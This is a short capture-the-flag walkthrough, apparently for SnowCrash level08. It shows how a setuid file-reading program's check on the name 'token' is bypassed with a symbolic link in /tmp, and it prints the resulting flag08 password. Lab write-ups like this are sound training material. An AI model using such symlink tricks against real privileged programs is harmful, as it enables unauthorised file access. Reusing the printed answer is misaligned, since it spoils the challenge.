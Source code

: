```bash
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
level08@SnowCrash:~$
```

```bash
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ echo "HI" > /tmp/file_to_read
level08@SnowCrash:~$ ./level08 /tmp/file_to_read
HI
level08@SnowCrash:~$ 
```

The `level08` program read any file that passed as the first argument. We simply need to read the `token` file from `/home/user/level08/`

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Using `https://dogbolt.org`, we can see that we need to modify the program's workflow to read the token file, while ensuring the filename does not contain `token`. One method is to use `ln` to create a symbolic link with a different name.


```bash
ln -s /home/user/level08/token /tmp/a
./level08 /tmp/a
```

```bash
su flag08
Password: quif5eloekouj29ke0vouxean
getflag
```
